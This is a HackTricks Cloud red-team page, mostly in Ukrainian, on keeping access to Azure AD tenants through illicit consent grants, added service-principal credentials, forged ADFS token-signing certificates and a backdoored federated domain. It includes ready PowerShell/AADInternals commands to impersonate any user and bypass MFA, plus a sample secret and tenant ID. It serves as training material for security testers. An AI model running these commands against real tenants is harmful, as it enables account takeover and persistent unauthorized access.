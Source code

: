 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

За замовчуванням будь-який користувач може зареєструвати додаток в Azure AD. Тому ви можете зареєструвати додаток (тільки для цільового орендаря), який потребує дозволів з високим впливом з адміністративним погодженням (схвалити його, якщо ви адміністратор) - наприклад, надсилання електронної пошти від імені користувача, управління ролями тощо. Це дозволить нам **виконувати фішингові атаки**, які будуть дуже **прибутковими** у разі успіху.

Більше того, ви також можете прийняти цей додаток зі своїм користувачем як спосіб підтримувати доступ до нього.

### Applications and Service Principals

З привілеями адміністратора додатків, GA або користувацькою роллю з дозволами microsoft.directory/applications/credentials/update, ми можемо додати облікові дані (секрет або сертифікат) до існуючого додатку.

Можливо **націлити додаток з високими дозволами** або **додати новий додаток** з високими дозволами.

Цікавою роллю, яку можна додати до додатку, була б **роль адміністратора привілейованої аутентифікації**, оскільки вона дозволяє **скидати пароль** глобальних адміністраторів.

Ця техніка також дозволяє **обійти MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Для аутентифікації на основі сертифікатів

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Федерація - Сертифікат підпису токена

З **привілеями DA** на локальному AD можливо створити та імпортувати **нові сертифікати підпису токена** та **сертифікати розшифровки токена**, які мають дуже тривалий термін дії. Це дозволить нам **увійти як будь-який користувач**, чий ImuutableID ми знаємо.

**Виконайте** нижче наведений команду як **DA на сервері(ах) ADFS**, щоб створити нові сертифікати (пароль за замовчуванням 'AADInternals'), додати їх до ADFS, вимкнути автоматичне оновлення та перезапустити службу:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Тоді оновіть інформацію про сертифікат в Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

З привілеями GA в орендаря можливо **додати новий домен** (повинен бути перевірений), налаштувати його тип аутентифікації на Федеративний та налаштувати домен для **довіри до конкретного сертифіката** (any.sts у наведеній нижче команді) та видавця:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Посилання

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
